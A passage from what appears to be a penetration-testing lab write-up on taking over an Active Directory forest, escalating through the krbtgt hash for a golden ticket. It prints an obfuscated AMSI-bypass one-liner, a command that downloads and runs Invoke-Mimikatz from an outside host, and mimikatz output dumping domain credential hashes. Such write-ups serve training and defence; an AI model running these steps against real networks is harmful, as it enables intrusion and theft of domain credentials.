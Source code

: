 i know have command execution on the domain controller.

## target 6: forest domination

recall that the parent and child domains have a two-way (bidirectional) trust relationship. this means that there are a couple of ways to escalate privileges to another domain within the same forest. i'm going to use the [`KRBTGT` hash](https://www.netwrix.com/how_golden_ticket_attack_works.html) way. 

using mimikatz, i can dump the KRBTGT hash from the Nebula Domain Controller:

```sh
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```sh
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcosmos.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : NEBULA / S-1-5-21-771755520-687805270-358672322

RID  : 000001f4 (500)
User : Administrator

RID  : 000001f5 (501)
User : Guest

RID  : 000001f6 (502)
User : krbtgt
NTLM : a3a127f4537798da6586372093fdffb4

RID  : 000001f7 (503)
User : DefaultAccount
```

here's the hash i'm interested in.

```sh
RID  : 000001f6 (502)
User : krbtgt
NTLM : a3a127f4537798da6586372093fdffb4
```


[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> whoami
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> hostname